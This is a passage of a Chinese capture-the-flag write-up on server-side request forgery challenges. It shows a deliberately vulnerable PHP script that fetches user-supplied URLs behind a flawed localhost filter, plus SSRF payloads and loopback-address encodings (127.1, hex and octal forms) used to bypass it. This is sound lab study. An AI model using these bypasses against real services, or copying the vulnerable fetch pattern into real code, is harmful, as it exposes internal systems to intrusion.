 所以需ssrf读取flag, payload:

```php
# POST
url=http://127.0.0.1/flag.php
```

## web352~过滤127.0.0,localhost

```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|127.0.0/')){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> hacker
```

* parse_url — 解析 URL，返回其组成部分

这里过滤了`/localhost|127.0.0/` ,

假的吧，都可以出来，

```
url=http://localhost/flag.php
url=http://127.0.0.1/flag.php
```

在本地尝试尝试绕过：

```cmd
ping 127.0.1
ping 127.1
ping 0x7F.0.0.1
ping 0177.0.0.1
```

题目尝试也可绕过。

## web353
